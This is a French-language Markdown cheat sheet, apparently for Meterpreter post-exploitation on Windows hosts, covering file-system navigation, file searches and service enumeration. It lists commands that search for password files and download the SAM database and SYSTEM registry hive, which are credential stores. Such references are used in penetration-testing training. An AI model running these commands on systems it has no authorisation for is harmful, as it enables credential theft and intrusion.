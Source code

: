 
## 📁 5. Système de fichiers

### Navigation
| Commande | Description |
|----------|-------------|
| `pwd` | Répertoire actuel |
| `ls` | Contenu du répertoire |
| `cd <path>` | Changer de répertoire |
| `cat <file>` | Afficher un fichier |
| `download <remote> <local>` | Télécharger un fichier |
| `upload <local> <remote>` | Uploader un fichier |

### Recherche de fichiers
| Commande | Description |
|----------|-------------|
| `search -f *.txt` | Rechercher fichiers .txt |
| `search -f password*` | Fichiers contenant "password" |
| `search -f *.config` | Fichiers de configuration |
| `search -d c:\\users` | Recherche dans un répertoire |

### Fichiers intéressants
| Commande | Description |
|----------|-------------|
| `cat c:\\windows\\system32\\drivers\\etc\\hosts` | Fichier hosts |
| `download c:\\windows\\system32\\config\\sam` | Base SAM |
| `download c:\\windows\\system32\\config\\system` | Registre SYSTEM |

---

## 🔧 6. Énumération des services

### Services Windows
| Commande | Description |
|----------|-------------|
| `run post/windows/gather/enum_services` | Services installés |
| `shell` puis `sc query` | Services en cours |
| `shell` puis `tasklist /svc` | Processus et services |
| `shell` puis `wmic service list full` | Services détaillés |
